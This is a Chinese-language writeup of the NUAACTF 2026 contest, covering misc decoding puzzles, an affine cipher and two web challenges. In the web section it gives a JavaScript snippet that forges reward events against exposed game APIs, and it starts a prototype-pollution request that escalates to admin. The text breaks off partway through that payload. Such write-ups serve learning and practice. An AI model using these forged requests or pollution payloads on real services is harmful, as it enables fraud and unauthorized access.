







# NUAACTF 2026 Writeup

第一次参加线下 CTF，隔壁南航的校赛

三人小组里我好像又划水了，我好难过

<!-- more -->

为了凑内容，把赛后补的题也塞进去

---

> 官方 wp：[NUAACTF 10th Writeup - Asuri Team Wiki](https://docs.asuri.club/s/513c5603-e914-4d7a-b7b8-6b3b3bd570a2)

---

## 🧩 MISC

### Asuri周年摇奖机

> Asuri周年活动庆典！免费赠送flag，没啥好讲的，拿到程序就 **直接摇！**
>
> 摇到神秘字母？欧皇光临，flag 直接送上门！🎉
>
> 摇动方式：**五个位置的字母随机旋转**，26 个英文字母任你挑，幸运值很高哦~~~
>
> flag格式：NUAACTF{flag}

签到



得到 Flag：

```
NUAACTF{We1c0me_t0_Misc_w0r1d}
```

---

### no cheating

> 小明找了一位高人协助，想要在NUAACTF中大获全胜，这个高人协助了我们NUAACTF的全部过程，他知道一切的秘密，于是小明直接发起了询问
>
> flag格式为NUAACTF{}

下发一个 `vmem` 文件，然后，嗯？？



这甚至是官解。得到 Flag：

```
NUAACTF{no_escape!!!!}
```

---

### 最后的坐标

> 北京时间 04:19，多套基础交通监测系统同时触发异常告警。 最先出现异常的是空域监控系统捕获到来自高空民航器的异常应答信号；随后，海事监控中心，一艘远洋船只的导航遥测中检测到异常通信片段；几乎在同一时间，地面轨道运输调度网络也记录到了不符合常规路径规划的调度日志。 三条告警分别来自海上、空中与陆地，却在时间轴上高度重合。这在历史记录中从未出现过。
>
> 在告警触发后不久，负责汇聚三方数据的核心分析节点突然失联。最后一条通信来自失联前的指挥节点，通过应急邮件网关发出。邮件附件似乎被损坏或加密，通信随后中断
>
> 分析三方告警数据，提取隐藏的空间关键词，重建最终坐标，并确认目标最后抵达的地理地标。
>
> **> 如果无法还原该位置，下一次告警可能将不再只是数据异常。**
>
> Flag 格式 NUAACTF{目标所在的山脉/湖泊名} 名称以最终查询为准，地点首字母大写
>
> *TIP: 目标所在的山脉/湖泊名使用拼音*

下发一个 .eml 文件（邮件），可以提取出一个附件 `attachment.bin`，作为 .zip 文件解压后得到三个文本文件

- 第一个文件

```title="air.txt"
8D40621D990066002000000016DE
8D40621D99006C002000001E5532
8D40621D990061002000000922B4
8D40621D99006700200000031C10
8D40621D99007B0020000027CDB8
8D40621D990066002000000016DE
8D40621D990069002000001174C4
8D40621D990072002000003C9106
8D40621D990073002000003F9BC8
8D40621D9900740020000036AFA2
8D40621D99005F002000004ABF40
8D40621D9900770020000033B0F0
8D40621D99006F002000001B4A60
8D40621D990072002000003C9106
8D40621D99006400200000060342
8D40621D99005F002000004ABF40
8D40621D990069002000001174C4
8D40621D990073002000003F9BC8
8D40621D99005F002000004ABF40
8D40621D99006400200000060342
8D40621D990072002000003C9106
8D40621D9900650020000005098C
8D40621D990061002000000922B4
8D40621D99006D002000001D5FFC
8D40621D990073002000003F9BC8
8D40621D99007D002000002DF31C
```

对应“空”领域相关的 ADS-B 协议报文。虽然看不懂这报文的内容，但是发现，报文的第七个字节承载的信息是 ASCII 范围内的：

```
8D40621D9900 |66| 002000000016DE
8D40621D9900 |6C| 002000001E5532
8D40621D9900 |61| 002000000922B4
... ...
```

提取出来，得到 `flag{first_word_is_dreams}`

- 第二个文件

```title="sea.txt"
!AIVDO,2,1,0,A,51mg=5@00000sE8PMW<sE8PMW=Hta=MWHWl000001@D554000<SeDR1nLmSj,0*33
!AIVDO,2,2,0,A,TmnMRO@0000,2*51
```

对应“海”领域相关的船舶自动识别系统 AIS 报文。找个网站解码一下，得到 Name 字段和 Destination 字段都为 `N5RHGY3VOJSWY6I=`，Base64 解码后为单词 `obscurely`

- 第三个文件

```title="rail.log"
RTCT|G1000|A35|90|YELLOW|23
RTCT|G1001|A82|109|YELLOW|57
RTCT|G1002|A17|120|YELLOW|4F
RTCT|G1003|A96|104|GREEN|EE
RTCT|G1004|A90|90|GREEN|BD
RTCT|G1005|A78|51|GREEN|C1
RTCT|G1006|A33|116|GREEN|EB
RTCT|G1007|A98|48|GREEN|CB
RTCT|G1008|A18|97|YELLOW|33
RTCT|G1009|A51|71|GREEN|BE
RTCT|G1010|A25|108|YELLOW|53
RTCT|G1011|A90|121|GREEN|E6
RTCT|G1012|A81|90|YELLOW|27
RTCT|G1013|A76|70|GREEN|BF
RTCT|G1014|A31|57|GREEN|BC
RTCT|G1015|A93|51|YELLOW|2A
RTCT|G1016|A76|98|YELLOW|37
RTCT|G1017|A15|51|YELLOW|26
RTCT|G1018|A67|74|GREEN|C8
RTCT|G1019|A28|107|YELLOW|5E
RTCT|G1020|A72|88|YELLOW|2D
RTCT|G1021|A38|50|GREEN|BA
RTCT|G1022|A77|108|GREEN|F2
RTCT|G1023|A68|122|YELLOW|5A
RTCT|G1024|A17|88|YELLOW|30
RTCT|G1025|A12|50|GREEN|B6
RTCT|G1026|A57|49|GREEN|C8
RTCT|G1027|A32|104|GREEN|EA
RTCT|G1028|A91|98|YELLOW|37
RTCT|G1029|A28|110|GREEN|EE
RTCT|G1030|A53|86|GREEN|C0
RTCT|G1031|A28|109|GREEN|EF
RTCT|G1032|A47|89|YELLOW|33
RTCT|G1033|A38|87|YELLOW|32
RTCT|G1034|A29|78|GREEN|C8
RTCT|G1035|A27|48|GREEN|C4
RTCT|G1036|A73|100|GREEN|EB
RTCT|G1037|A92|88|GREEN|CC
RTCT|G1038|A76|74|YELLOW|35
RTCT|G1039|A58|108|YELLOW|64
RTCT|G1040|A72|102|GREEN|E7
RTCT|G1041|A26|81|YELLOW|28
RTCT|G1042|A59|61|GREEN|C2
RTCT|G1043|A54|61|YELLOW|29
```

对应“陆”领域相关的列车调度日志（应该是自创的）。依旧是发现第四列信息都在 ASCII 范围内，提取出来转 ASCII 得到 `ZmxhZ3t0aGlyZF93b3JkX2lzX21hbnVmYWN0dXJlfQ==`，一眼 `flag` 开头的 Base64，解码后得到 `flag{third_word_is_manufacture}`

现在得到三个单词 `dreams.obscurely.manufacture`，STFW 发现有一个 What3words 坐标系，可以为地图上的每个 3m x 3m 正方形提供一个唯一的三个单词地址：



得到 Flag：

```
NUAACTF{Namucuo}
```

（为什么不用英文用拼音，这拼音提示还是之后放出来的）

---

### 流量信号

> Misc最常见的就是pcap流量包分析了，但是哪些东西算作【流量呢】？

下发一个 USB 流量包，打开一看看不下去

思考了一下，如果流量包里非加密藏了一些文件，可以扫出文件头。于是先用 `binwalk` 浅浅测了一下，没扫出来。拿常见的文件头试了一下，发现对于 JPEG 文件头，能扫出非常多的匹配项：



推测藏的是 JPEG 视频流，而 USB 流量包中，JPEG 视频流封装在 UVC 协议的数据负载中。因此让 LLM 写个 Python 脚本提取

```python title="extract.py"
import struct, os, re, sys

if len(sys.argv) < 3:
    print("Usage: python extract.py <input.pcap> <output_dir>")
    sys.exit(1)

input_file = sys.argv[1]
output_dir = sys.argv[2]

stream = bytearray()
chunks = 0

with open(input_file, 'rb') as f:
    f.read(24)
    while True:
        ph = f.read(16)
        if len(ph) < 16: 
            break
        cap = struct.unpack('<IIII', ph)[2]
        d = f.read(cap)
        if len(d) < 39: 
            continue
        hlen = int.from_bytes(d[:2], 'little')
        ep = d[21]
        trans = d[22]
        if ep == 129 and trans == 0 and hlen >= 39:
            num = (hlen - 39) // 12
            payload = d[hlen:]
            for j in range(num):
                off, l, st = struct.unpack_from('<III', d, 39 + j * 12)
                if st == 0 and l > 0 and off + l <= len(payload):
                    chunk = payload[off:off + l]
                    hl = chunk[0] if chunk else 0
                    if 2 <= hl <= len(chunk) and hl in (2, 6, 8, 10, 12):
                        stream.extend(chunk[hl:])
                        chunks += 1

print('stream len', len(stream), 'chunks', chunks, 'soi', stream.count(b'\xff\xd8'), 'eoi', stream.count(b'\xff\xd9'))

os.makedirs(output_dir, exist_ok=True)
pos = 0
files = []

while True:
    s = stream.find(b'\xff\xd8', pos)
    if s < 0: 
        break
    e = stream.find(b'\xff\xd9', s + 2)
    if e < 0: 
        break
    jpg = stream[s:e + 2]
    if len(jpg) > 1000:
        fn = os.path.join(output_dir, f'img_{len(files):05d}.jpg')
        open(fn, 'wb').write(jpg)
        files.append((fn, len(jpg)))
    pos = e + 2

print('files', len(files), files[:5], files[-5:])
```

提取出来非常多的图片：首先是倒计时，然后是间隔黑白切换的屏幕





发现这种黑白闪烁的时间间隔很像摩斯电码，如果考虑连续的十几帧图片为 `.`，连续的三十几帧图片为 `-`，连续的八十几帧图片为空格，可以让 LLM 写出下面的脚本

```python title="morse.py"
import sys
from PIL import Image, ImageFile
ImageFile.LOAD_TRUNCATED_IMAGES=True
import glob, numpy as np

if len(sys.argv) > 1:
    folder = sys.argv[1]
else:
    folder = './output'

    files=sorted(glob.glob(f'{folder}/*.jpg'))
    means=[]
    for fn in files:
        im=Image.open(fn).convert('L')
        means.append(float(np.array(im)[80:450,100:580].mean()))
        bits=[1 if m>150 else 0 for m in means]
        runs=[]
        s=bits[0]; start=0
        for i,b in enumerate(bits[1:],1):
            if b!=s:
                runs.append((s,start,i-start)); s=b; start=i
                runs.append((s,start,len(bits)-start))

                morse=''
                letters=[]
                cur=''
                for val,start,length in runs[1:]:
                    if val==1:
                        cur += '-' if length>=24 else '.'
                    else:
                        if length>=80:
                            if cur: letters.append(cur); cur=''
                            letters.append('/')
                        elif length>=30:
                            if cur: letters.append(cur); cur=''
                        else:
                            pass
                        if cur: letters.append(cur)
                        print(letters)
                        morse_code = {
                            '.-':'A','-...':'B','-.-.':'C','-..':'D','.':'E','..-.':'F','--.':'G','....':'H','..':'I',
                            '.---':'J','-.-':'K','.-..':'L','--':'M','-.':'N','---':'O','.--.':'P','--.-':'Q','.-.':'R',
                            '...':'S','-':'T','..-':'U','...-':'V','.--':'W','-..-':'X','-.--':'Y','--..':'Z',
                            '-----':'0','.----':'1','..---':'2','...--':'3','....-':'4','.....':'5','-....':'6','--...':'7','---..':'8','----.':'9',
                            '.-.-.-':'.','--..--':',','..--..':'?','-..-.':'/','-....-':'-','-.--.':'(','-.--.-':')','..--.-':'_','-.-.--':'!'
                        }
                        print(''.join(' ' if x=='/' else morse_code.get(x,'?') for x in letters))
```

跑一遍

```
> python morse.py output              
['--', '---', '.-.', '...', '.', '-.-.', '---', '-..', '.', '/']
MORSECODE 
```

验证后发现摩斯电码的输出结果就是 Flag：

```
NUAACTF{MORSECODE}
```

## 🔒 CRYPTO

### Nobody

> Nobody的战术(->映射表)好像跟往年不一样了
>
> `juqqkR7{qttrVQ_cVz_5cmQ8C_kEPnlJ_lcmU}`

没有附件，猜映射表，首先可以肯定的是 `juqqkR7 <- NUAACTF`

开头这 7 个大写字母被映射到了小写字母、大写字母、数字，并且相同字符在映射后内容推测不变，又出现了 `l` 的单个映射结果（说明不是 Base58），或许是基于 Base64 字符集的单表映射

```title="我们在之后的仿射计算时考虑 0-index"
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
```

单表替换中，一种比较常见的密码是 Affine Cipher 仿射密码 $E(x)=(ax+b) \bmod m$，把已知的六个映射做计算，可以计算得到 $a = 29, b=42$

还原即得 Flag：

```
NUAACTF{Aff1ne_and_base64_Ciph3r_3asy}
```

## 🕸️ WEB

###黄金矿工

> 一个平平无奇的小游戏，好像凑够了钱买那个价值99999999999999999999神奇的旗帜会得到点什么，有点粗糙，还请海涵。

打开容器发现是一个黄金矿工小游戏，F12 右键被禁了，手动进开发人员工具，源代码处可以找到后端

```javascript title="ctf-backend.js"
(function () {
  "use strict";

  var defaultApiBase = window.location.protocol.indexOf("http") === 0
    ? window.location.origin + "/api"
    : "http://127.0.0.1:5000/api";
  var API_BASE = window.CTF_API_BASE || defaultApiBase;
  var PLAYER_KEY = "ctf_player_id";
  var ROUND_COUNT_KEY = "ctf_round_counter";
  var playerId = localStorage.getItem(PLAYER_KEY);

  if (!playerId) {
    playerId = "player-" + Math.random().toString(36).slice(2, 10);
    localStorage.setItem(PLAYER_KEY, playerId);
  }

  var roundCounter = parseInt(localStorage.getItem(ROUND_COUNT_KEY) || "0", 10);
  if (isNaN(roundCounter)) {
    roundCounter = 0;
  }

  var state = {
    inLevel: false,
    levelName: "",
    startScore: 0,
    lastItem5: null,
    settlePromise: Promise.resolve()
  };

  function jsonFetch(path, options) {
    options = options || {};
    return fetch(API_BASE + path, options).then(function (resp) {
      if (!resp.ok) {
        return resp.json().catch(function () {
          return { error: "HTTP " + resp.status };
        }).then(function (err) {
          throw new Error(err.error || ("HTTP " + resp.status));
        });
      }
      return resp.json();
    });
  }

  function getRuntime() {
    if (typeof window.cr_getC2Runtime !== "function") {
      return null;
    }
    return window.cr_getC2Runtime();
  }

  function getGlobalVar(runtime, name) {
    if (!runtime || !runtime.all_global_vars) {
      return null;
    }
    for (var i = 0; i < runtime.all_global_vars.length; i++) {
      var v = runtime.all_global_vars[i];
      if (v && v.name === name) {
        return v;
      }
    }
    return null;
  }

  function getNumberVar(runtime, name, fallback) {
    var v = getGlobalVar(runtime, name);
    if (!v) {
      return fallback;
    }
    var n = Number(v.data);
    return isFinite(n) ? n : fallback;
  }

  function postRoundReward(levelName, earned, endScore) {
    if (earned <= 0) {
      return Promise.resolve();
    }

    roundCounter += 1;
    localStorage.setItem(ROUND_COUNT_KEY, String(roundCounter));
    var roundId = playerId + ":" + roundCounter;

    return jsonFetch("/events", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({
        player_id: playerId,
        event_type: "round_end",
        payload: {
          round_id: roundId,
          level: levelName,
          earned: earned,
          score: endScore
        }
      })
    }).then(function () {
      return jsonFetch("/coins/adjust", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({
          player_id: playerId,
          delta: earned,
          reason: "round_earned",
          meta: {
            round_id: roundId,
            level: levelName,
            score: endScore
          }
        })
      });
    }).catch(function (err) {
      console.warn("[ctf] round settle failed:", err.message);
    });
  }

  function postFlagPurchaseFromShop() {
    return jsonFetch("/shop/purchase", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({ player_id: playerId, item_id: "flag" })
    }).then(function (data) {
      if (data.flag) {
        console.log("[ctf] flag purchase success, FLAG:", data.flag);
      } else {
        console.log("[ctf] flag purchase success:", data.message || "ok");
      }
    }).catch(function (err) {
      console.error("[ctf] flag purchase failed:", err.message);
    });
  }

  function observeGameLoop() {
    var runtime = getRuntime();
    if (!runtime || !runtime.running_layout) {
      return;
    }

    var layoutName = runtime.running_layout.name || "";
    var score = getNumberVar(runtime, "Score", 0);
    var item5 = getNumberVar(runtime, "Item_5", null);
    var isLevel = layoutName.indexOf("Level_") === 0;

    if (isLevel && (!state.inLevel || state.levelName !== layoutName)) {
      state.inLevel = true;
      state.levelName = layoutName;
      state.startScore = score;
    }

    if (!isLevel && state.inLevel) {
      var earned = Math.max(0, score - state.startScore);
      var finishedLevel = state.levelName;
      state.inLevel = false;
      state.levelName = "";
      state.startScore = score;
      state.settlePromise = postRoundReward(finishedLevel, earned, score);
    }

    if (item5 !== null && state.lastItem5 === 1 && item5 === 0) {
      state.settlePromise = state.settlePromise.then(function () {
        return postFlagPurchaseFromShop();
      });
    }
    state.lastItem5 = item5;
  }

  jsonFetch("/state?player_id=" + encodeURIComponent(playerId)).catch(function () {});
  setInterval(observeGameLoop, 800);
})();
```

后端全暴露，直接伪造过关事件，狠狠刷金币，然后购买 Flag

```js
let playerId = localStorage.getItem('ctf_player_id');

// 上报通关事件

fetch('/api/events', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        player_id: playerId,
        event_type: 'round_end',
        payload: {
            round_id: Date.now().toString(),
            level: 'Level_1',
            earned: 99999999999999999999,
            score: 99999999999999999999
        }
    })
}).then(() => {

// 爆金币

    return fetch('/api/coins/adjust', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
            player_id: playerId,
            delta: 99999999999999999999,
            reason: 'round_earned',
            meta: { round_id: Date.now().toString(), level: 'Level_1', score: 99999999999999999999 }
        })
    });
}).then(res => res.json()).then(data => {
    console.log('Coin: ', data);
});

// 买 Flag

fetch('/api/shop/purchase', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ player_id: localStorage.getItem('ctf_player_id'), item_id: 'flag' })
}).then(r => r.json()).then(data => console.log(data));
```

返回内容为：

```
Coin:  {ok: true, coins: 100000000000000000000}

{ok: true, item_id: 'flag', coins: 2002, flag: 'flag{cf43f41e-d322-428f-a61c-f5dedb8eaa1c}'}
```

得到 Flag：

```
flag{cf43f41e-d322-428f-a61c-f5dedb8eaa1c}
```

---

### 重启吧！我的人生！

> 天天上班，我可以去世嘛？No！重启吧我的人生！
> 
> *TIP1: 后台有暴露的api呢。*
> 
> *TIP2: 暴露两个接口：api/save/sync（用于merge） api/system/health/check（用于鉴权）*

在给出 tip2 之前基本没有头绪，因为我的词典扫不出这两个接口（之后拿着这两个接口扫了一遍我 Kali 上的词典库，也没找到）

而且这个容器会对所有的非有效接口访问都会返回一样的内容，只有 POST 访问 `api/save/sync` 和 GET 访问 `api/system/health/check` 能返回有意义的内容（请求方法不对应，结果也是一样的）

```title="POST 访问 api/save/sync"
POST /api/save/sync HTTP/1.1
Host: 47.120.26.11:32473
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Sun, 26 Apr 2026 06:29:20 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 36

{"ok":true,"message":"sync success"}
```

```title="GET 访问 api/system/health/check"
GET /api/system/health/check HTTP/1.1
Host: 47.120.26.11:32473
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Date: Sun, 26 Apr 2026 06:28:39 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 35

{"ok":false,"message":"admin only"}
```

给 `/api/save/sync` 发送原型链污染的 Payload，Fuzz 得到 `isAdmin` 字段有效。在 `/api/system/health/check` 通过 Admin 验证，得到 Flag

```title="Payload"
POST /api/save/sync HTTP/1.1
Host: 47.120.26.11:32473
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
